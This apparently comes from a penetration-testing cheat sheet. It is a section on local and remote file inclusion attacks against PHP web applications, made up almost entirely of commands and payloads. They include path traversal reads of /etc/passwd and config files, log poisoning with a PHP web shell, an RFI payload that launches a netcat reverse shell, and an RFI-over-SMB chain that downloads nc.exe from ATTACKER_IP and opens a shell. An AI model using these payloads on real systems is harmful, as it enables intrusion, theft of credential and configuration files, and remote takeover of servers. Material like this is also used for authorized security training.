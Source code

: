 #### LFI/RFI

```bash
fimap -u "http://10.11.1.111/example.php?test="

# Ordered output
curl -s http://10.11.1.111/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://10.11.1.111/example.php?page=

http://10.11.1.111/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd && base64 -d savefile.php
http://10.11.1.111/page=http://10.11.1.111/maliciousfile.txt%00 or ?
?page=php://filter/convert.base64-encode/resource=../config.php

file=C:\windows\system32\drivers\etc\hosts  #Windows file

amap -d 10.11.1.111 8000

# LFI Windows

http://10.11.1.111/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00

../../../../../boot.ini  #Windows file


# Contaminating log files

root@kali:~# nc -v 10.11.1.111 80
10.11.1.111: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.1.111] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?>

http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig  #Will work if directory traversal is available.

# RFI:
http://10.11.1.111/addguestbook.php?LANG=http://10.11.1.111:31/evil.txt%00
Content of evil.txt:
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>

# PHP Filter:
http://10.11.1.111/index.php?m=php://filter/convert.base64-encode/resource=config

# RFI over SMB (Windows)
cat php_cmd.php
	<?php echo shell_exec($_GET['cmd']);?>
- Start SMB Server in attacker machine and put evil script
- Access it via browser (2 request attack):
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234

```
